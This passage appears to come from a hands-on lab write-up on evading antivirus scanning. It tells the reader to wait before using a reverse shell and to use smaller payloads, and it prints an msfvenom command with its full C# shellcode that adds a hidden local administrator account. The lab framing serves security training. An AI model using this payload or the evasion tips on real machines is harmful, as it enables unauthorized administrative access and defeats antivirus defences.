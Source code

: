 While defeating in-memory scanning is out of the scope of this room, there are a couple of simple things you can do to avoid detection:

- **Just wait a bit**. Try spawning the reverse shell again and wait for around 5 minutes before sending any command. You'll see the AV won't complain anymore. The reason for this is that scanning memory is an expensive operation. Therefore, the AV will do it for a while after your process starts but will eventually stop.
- **Use smaller payloads**. The smaller the payload, the less likely it is to be detected. If you use msfvenom to get a single command executed instead of a reverse shell, the AV will have a harder time detecting it. You can try with **`msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp`** and see what happens.
- 

```bash
msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp
```

```bash
0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,
0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,
0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,
0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,
0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x6e,0x65,0x74,
0x20,0x75,0x73,0x65,0x72,0x20,0x70,0x77,0x6e,0x64,0x20,0x50,
0x61,0x73,0x73,0x77,0x6f,0x72,0x64,0x33,0x32,0x31,0x20,0x2f,
0x61,0x64,0x64,0x3b,0x6e,0x65,0x74,0x20,0x6c,0x6f,0x63,0x61,
0x6c,0x67,0x72,0x6f,0x75,0x70,0x20,0x61,0x64,0x6d,0x69,0x6e,
0x69,0x73,0x74,0x72,0x61,0x74,0x6f,0x72,0x73,0x20,0x70,0x77,
0x6e,0x64,0x20,0x2f,0x61,0x64,0x64,0x00

```

```bash
root@ip-10-10-141-173:~# msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 338 bytes
Final size of csharp file: 1748 bytes
byte[] buf = new byte[338] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
```